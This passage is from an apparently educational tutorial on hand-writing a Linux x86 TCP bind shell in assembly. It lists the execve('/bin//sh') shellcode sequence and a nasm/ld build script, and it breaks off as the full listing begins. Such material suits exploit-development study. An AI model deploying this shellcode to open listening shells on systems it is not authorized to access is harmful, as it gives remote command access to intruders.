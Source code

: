 mov ebx, esp
```

Now we need our 2nd (ECX) and 3rd (EDX) parameters to point to NULL values. As I stated above, I initially attempted to just 0 out the registers - however this did not work. So I ended up pushing a zero on to the stack and using the address held in ESP again to reference the top of the stack, which pointed at our zero value after the push. This was completed twice to satisfy both NULL parameters.

Finally, I set the EAX register to the value 0xb (11), which is the value of the execve system call, and executed it with the ‘int 0x80’ instruction.

```
xor eax, eax
push eax

push 0x68732f6e
push 0x69622f2f
mov ebx, esp

push eax
mov ecx, esp

push eax
mov edx, esp

xor eax, eax
mov eax, 0xb
int 0x80
```

We should now have a fully functioning TCP bind shell, ready for assembling, linking and executing. When connecting to the bind shell, remember the port number specified in the structure created and used within the bind() system call.

I created a quick little script to help with assembling and linking my scripts, rather than having to issue 2 separate commands each time:

```
root@kali:~/Documents/bindshell/misc# cat build.sh 
echo "Assembling $1.asm"
nasm -f elf32 "$1".asm 

echo "Linking $1.o"
ld -s -o "$1" "$1".o

echo "Done"
```

Usage:

```./build.sh tcp_bind_shell```

Upon assembling and linking the asm file, you should have a functional TCP bind shell.

The entire first draft script can be seen here:

```
global  _start
section .text
